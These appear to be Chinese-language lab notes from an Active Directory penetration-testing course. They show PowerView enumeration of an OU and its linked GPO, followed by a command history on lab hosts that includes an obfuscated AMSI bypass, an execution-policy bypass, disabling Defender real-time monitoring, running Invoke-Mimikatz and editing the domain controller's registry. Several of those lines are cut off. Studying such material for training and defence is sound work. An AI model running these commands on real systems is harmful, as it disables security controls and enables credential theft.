 ```

## 获取OUName是StudentMachines的全部信息
```
PS C:\AD> Get-NetOU -OUName StudentMachines -FullData

usncreated            : 65752
name                  : StudentMachines
gplink                : [LDAP://cn={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},cn=policies,cn=system,DC=dollarcorp,DC=moneycorp,DC=local;0]
whenchanged           : 2/19/2019 7:04:25 AM
objectclass           : {top, organizationalUnit}
usnchanged            : 65837
dscorepropagationdata : {5/3/2020 9:04:05 AM, 5/3/2020 9:04:05 AM, 5/3/2020 9:04:05 AM, 2/21/2019 3:13:33 PM...}
adspath               : LDAP://OU=StudentMachines,DC=dollarcorp,DC=moneycorp,DC=local
distinguishedname     : OU=StudentMachines,DC=dollarcorp,DC=moneycorp,DC=local
ou                    : StudentMachines
whencreated           : 2/19/2019 7:01:04 AM
instancetype          : 4
objectguid            : 284a1630-3d96-45c6-99a0-1f8d138f29d5
objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=moneycorp,DC=local

```

可以看到gplink里的GOPName是：{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}


## 获取指派给这个GPOname的OU
```
PS C:\AD> Get-NetGPO -GPOname "{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}"


usncreated               : 65831
displayname              : Students
gpcmachineextensionnames : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{D02B1F72-3407-48AE-BA88-E8213C6761F1}][{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}]
whenchanged              : 4/20/2019 6:22:16 AM
objectclass              : {top, container, groupPolicyContainer}
gpcfunctionalityversion  : 2
showinadvancedviewonly   : True
usnchanged               : 123144
dscorepropagationdata    : {5/3/2020 9:04:05 AM, 2/21/2019 12:17:00 PM, 2/19/2019 1:04:02 PM, 2/19/2019 12:55:49 PM...}
name                     : {3E04167E-C2B6-4A9A-8FB7-C811158DC97C}
adspath                  : LDAP://CN={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
flags                    : 0
cn                       : {3E04167E-C2B6-4A9A-8FB7-C811158DC97C}
gpcfilesyspath           : \\dollarcorp.moneycorp.local\SysVol\dollarcorp.moneycorp.local\Policies\{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}
distinguishedname        : CN={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
whencreated              : 2/19/2019 7:04:25 AM
versionnumber            : 8
instancetype             : 4
objectguid               : 8ecdfe44-b617-4b9e-a9f9-4d548e5dc7b1
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=moneycorp,DC=local


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\